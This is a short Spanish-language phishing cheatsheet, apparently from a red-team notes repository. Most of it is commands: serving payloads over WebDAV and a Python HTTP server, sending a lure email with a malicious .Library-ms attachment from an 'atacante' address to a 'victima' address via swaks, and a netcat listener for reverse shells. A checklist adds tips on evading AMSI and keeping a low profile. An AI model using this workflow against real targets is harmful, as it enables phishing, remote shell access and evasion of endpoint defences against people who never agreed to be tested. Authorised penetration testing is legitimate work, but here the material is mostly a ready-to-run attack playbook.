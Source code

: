 # 🪝 Phishing - Cheatsheet (2025-07-13)

## 1️⃣ WEBDAV (para entregar payloads de forma sigilosa)

```bash
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /ruta/del/payload
```

* Útil para vector LNK, .url, .settingcontent-ms.
* Permite al objetivo montar y ejecutar el payload directamente.
* Ver logs en consola para confirmar conexión y archivo solicitado.

## 2️⃣ Servidor HTTP rápido

```bash
python3 -m http.server 8000
```

* Usado para entregar `.ps1`, `.exe`, `.bat`, `.hta` vía phishing.
* Confirmar descarga observando `GET` en consola.

## 3️⃣ Envío de mail con adjunto (phishing técnico)

```bash
swaks -t victima@dominio.com \
      --from atacante@dominio.com \
      --attach @payload.Library-ms \
      --server <IP_SMTP> \
      --body @cuerpo_mail.txt \
      --header "Subject: Cambio de configuración de notificaciones" \
      --suppress-data -ap
```

* Usa `swaks` para pruebas directas contra SMTP expuesto.
* Usa usuario/contraseña si el SMTP requiere autenticación:

```
Username: <usuario>
Password: <contraseña>
```

* Ideal para simular spear-phishing controlado.

## 4️⃣ Receptor de conexión (listener)

```bash
nc -lvnp 4444
```

* Para recibir la shell reverse tras la ejecución del payload.
* Confirmar conexión, identificar IP origen, y obtener contexto con `whoami`, `hostname`, `ipconfig`.

## 🪪 Checklist de Operación

✅ Preparar payload firmado o evadir AMSI.
✅ Confirmar conexión SMTP y permisos de relay.
✅ Preparar listener antes de enviar el mail.
✅ Monitorizar logs de servidor HTTP/WEBDAV para confirmar ejecución.
✅ Mantener bajo perfil en pruebas internas.

## 🛠️ Herramientas útiles

* `swaks` – SMTP testing y envío de mails con adjuntos.
* `wsgidav` – WEBDAV para entregar archivos mediante SMB-like browsing.
* `python3 -m http.server` – HTTP server rápido.
* `nc` – Listener simple para shells.


